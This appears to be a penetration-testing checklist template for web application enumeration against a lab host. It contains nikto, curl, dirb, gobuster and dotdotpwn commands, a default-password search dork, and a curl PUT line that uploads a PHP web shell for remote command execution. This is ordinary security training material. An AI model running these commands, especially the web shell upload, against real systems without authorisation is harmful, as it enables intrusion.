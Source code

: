 INSERTCURLHEADER


- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://10.10.10.102

# Nikto with squid proxy
nikto -h 10.10.10.102 -useproxy http://10.10.10.102:4444

# Get header
curl -i 10.10.10.102

# Get everything
curl -i -L 10.10.10.102

# Check if it is possible to upload using put
curl -v -X OPTIONS http://10.10.10.102/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.10.10.102/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h 10.10.10.102 -M GET -o unix
```


#### Nikto scan


INSERTNIKTOSCAN



#### Url brute force



```
# Dirb
dirb http://10.10.10.102 -r -o dirb-10.10.10.102.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://10.10.10.102 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```
